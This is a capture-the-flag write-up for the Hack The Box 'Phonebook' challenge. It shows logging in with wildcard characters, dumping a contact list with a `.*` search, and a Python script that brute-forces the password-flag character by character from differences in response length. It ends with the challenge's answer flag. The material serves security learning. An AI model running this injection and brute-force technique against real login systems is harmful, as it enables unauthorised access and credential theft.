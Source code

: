 # Phonebook

**Date:** 13, May, 2021

**Author:** Dhilip Sanjay S

---

## Initial Recon
- Initially I couldn't find the **username** and **password** for login. So, I was looking for someother endpoint other than **login**.
- I was able to find two other enpoints: 
    - **964430b4cdd199af19b986eaf2193b21f32542d0**
    - **search** 

### Access Denied
- The `964430b4cdd199af19b986eaf2193b21f32542d0` page had a search box, which made a **POST** request to the search endpoint. But it kept on returning `Access Denied` - 403 Error message.

## Dumping all the contacts in the phonebook
### Login with wild card character (*)
- On entering the username and password as a **wildcard character (*)**, I was able to login into the site.

### Search using regex (.*)
- Now in the search box, I tried the same wildcard character, but it didn't work. 
- So, I used the **regex** that matches any string `.*`, which gave me the following output:

```
Kyle Reese	reese@skynet.com	555-1234567
Ellery Hun	ehun1z@reddit.com	317-959-9562
Madelaine Lush	mlush5@deliciousdays.com	636-918-1006
Currey Conti	cconti0@auda.org.au	529-673-3935
Chaim Smoth	csmothf@sbwire.com	895-974-4117
Eldin Jelf	ejelf1u@google.pl	363-426-3563
Ganny Marti	gmartih@diigo.com	796-793-6925
Jobey Olley	jolleyx@abc.net.au	607-345-0290
Katalin Wilde	kwildep@plala.or.jp	414-839-2681
Stinky Trood	stroodz@foxnews.com	933-416-1003
Tab Zoren	tzorenq@mit.edu	360-678-3613
Ursula Beer	ubeer2f@live.com	794-396-6882
Bryan Arman	barman1x@exblog.jp	640-255-8092
Babette Cunio	bcunio2h@macromedia.com	709-363-0223
Berget Novis	bnovis1j@constantcontact.com	780-278-2572
Ced Engley	cengleyi@springer.com	230-780-1999
Caryn Germon	cgermon4@wiley.com	967-789-6335
Devina Alcide	dalcideu@arizona.edu	828-947-3484
Dionne Lammas	dlammask@washingtonpost.com	824-561-5676
Emmalynn Burnup	eburnupd@networkadvertising.org	148-856-7052
Fredericka Hanks	fhanks1s@census.gov	762-337-5667
Hannah Inder	hinder2a@canalblog.com	315-711-6454
Jay Sharma	jsharmay@t.co	893-382-5236
Lilyan Crepel	lcrepel6@ucoz.com	851-980-1038
Nevile Cogle	ncogle27@answers.com	296-328-0254
Pansy Godier	pgodiero@google.ca	126-853-7977
Rubetta Bernth	rbernthc@biglobe.ne.jp	897-680-2856
Renelle Hyett	rhyett11@google.pl	453-475-9693
Saul Haill	shaill1q@omniture.com	654-478-5757
Stephanus Massot	smassot2@army.mil	717-500-2025
Sarah Moyes	smoyes2e@bing.com	747-445-4381
Sig Tanby	stanby2c@google.es	212-473-4506
Shepherd Tunuy	stunuy2d@spotify.com	293-455-5209
Teddy Bilby	tbilby1r@cornell.edu	357-669-5415
Taylor Capsey	tcapseyl@yahoo.co.jp	118-956-5884
Teddie Redley	tredleye@java.com	658-361-4791
Abagael Guidera	aguideras@barnesandnoble.com	857-685-9711
Arv Teresse	ateresse3@samsung.com	916-453-1626
Bert Father	bfather1v@cnet.com	131-343-2704
Bart McNess	bmcness20@wordpress.com	644-208-9958
Corinne Tirone	ctirone1y@nbcnews.com	572-971-8847
Denny Ashmole	dashmole7@telegraph.co.uk	345-974-0984
Elenore Puttick	eputtickv@newyorker.com	525-705-9780
Frederigo Itzkov	fitzkov1a@amazon.com	681-753-0881
Jessamyn Trusty	jtrusty2i@seesaa.net	423-494-9425
Jamison Vigurs	jvigurs1b@slideshare.net	161-478-7335
Michal Fearby	mfearby2k@ftc.gov	844-581-6099
Mellicent Pessolt	mpessolt8@freewebs.com	735-651-5726
Terencio Ducarne	tducarne9@homestead.com	831-135-9972
Trev Simmers	tsimmersm@phoca.cz	378-186-4422
Aubrey Castille	acastiller@homestead.com	930-681-1706
Andria Gossage	agossage24@wsj.com	184-389-0446
Ansell Shovlin	ashovlin16@blogspot.com	329-311-4183
Ahmed Swyndley	aswyndley1@blinklist.com	954-829-5270
Bay Gregori	bgregori2n@baidu.com	791-721-1297
Charlie Prangle	cprangle2b@shinystat.com	869-131-2435
Dianna Chesser	dchesser10@angelfire.com	901-185-5817
Denna Duplain	dduplain19@springer.com	884-899-2850
Davidson Ibotson	dibotson2m@dedecms.com	709-535-0126
Enid Halbord	ehalbord1k@blogspot.com	318-313-2200
Eimile Pantlin	epantlin1c@admin.ch	690-650-9785
Fina Bonsale	fbonsale1h@meetup.com	631-592-3171
Ives Harvatt	iharvatt1l@hubpages.com	606-103-7270
Jehanna Langmaid	jlangmaidn@themeforest.net	171-550-7961
Karlee Christal	kchristalw@sourceforge.net	354-231-8489
Koo Hansill	khansill25@sourceforge.net	114-439-3748
Kimberley Mourant	kmourant1d@ft.com	792-338-9852
Moll Linster	mlinster17@parallels.com	704-145-7925
Sabra Brumham	sbrumham12@wordpress.com	222-509-0396
Scottie Bucknell	sbucknellg@dagondesign.com	765-181-5301
Stewart Currier	scurrier2r@businessweek.com	480-258-4237
Sollie Windham	swindham1f@squidoo.com	554-620-3103
Veda Lalonde	vlalonde1o@google.com.au	788-911-3962
Aguie Baggaley	abaggaley14@geocities.com	302-693-4223
April Roskelly	aroskelly2q@gravatar.com	177-474-9382
Burtie Bitcheno	bbitcheno29@ucla.edu	859-267-0856
Brunhilda Courtier	bcourtier2o@rakuten.co.jp	610-896-4215
Baxie Ellesmere	bellesmeret@furl.net	815-678-4391
Daryl Pond-Jones	dpondjonesj@gmpg.org	807-353-1751
Elyse Puckring	epuckring1n@dailymotion.com	619-569-7695
Glen Pickford	gpickford26@amazonaws.com	101-639-7455
Issi Coupland	icoupland23@myspace.com	943-625-5169
Joey Stienham	jstienham28@woothemes.com	214-853-1445
Marylee Parbrook	mparbrook1g@sbwire.com	872-906-8081
Reginauld Meggison	rmeggison22@behance.net	460-793-0851
Sybille Jephcott	sjephcott1e@yellowpages.com	454-950-9923
Siouxie Yesichev	syesichev1p@mashable.com	215-132-7221
Diana Moncreiff	dmoncreiff21@telegraph.co.uk	473-166-1352
Deane Shakelade	dshakelade2l@reuters.com	747-399-5336
Far Chansonne	fchansonne13@histats.com	215-579-4465
Ivett Danielczyk	idanielczyka@vk.com	777-574-2837
Johnette Vescovini	jvescovini1m@123-reg.co.uk	470-681-1859
Kary Thackeray	kthackeray1i@yellowpages.com	592-635-6851
Maris Giacopelo	mgiacopelo1w@networkadvertising.org	721-232-8735
Pascal Ainscough	painscough18@state.gov	202-416-7489
Valeda Purselowe	vpurselowe15@smugmug.com	407-245-6246
Allin de Glanville	adeglanvilleb@gov.uk	885-440-5379
Marty Chellenham	mchellenham2g@1und1.de	713-864-5942
Oneida Della Scala	odellascala1t@tuttocitta.it	472-913-8907
Vale O' Concannon	voconcannon2p@cdbaby.com	547-901-0162
Xavier Semeradova	xsemeradova2j@google.es	487-363-1619
```
- But wait, where is the flag??????

## Finding the password/flag
- We'll try to find the password. My intuition is that the password might be the flag.
- We know that the **wildcard character (\*)** will let us login. So, we can try to append some character before and after the wildcard character (*).
- So let's try `*` as the username and `HTB{*}` as the password, because this the flag format for HTB challenges.
- Now we are able to login. This confirms that the **password is the flag**.
- So we need some script to **bruteforce** the flag.

```py
#!/usr/bin/env python3
import requests
import string

url = "http://138.68.182.108:30733/login"
leaked_pass = list("HTB{")

# Remove the wildcard character
printable = string.printable.replace('*', '')

while True:
	for character in printable:	
		print("Guessing " + ''.join(leaked_pass) + character + "*")
		r = requests.post(url, {"username":"*", "password": ''.join(leaked_pass) + character + "*"})
		#print(r.headers['Content-Length'])
		if r.headers['Content-Length'] == '2586':
			leaked_pass.append(character)
			break
			
	# End of the flag
	if leaked_pass[-1] == '}':
		exit()
```

## Solution
- We get the password/flag as: `HTB{d1rectory_h4xx0r_is_k00l}`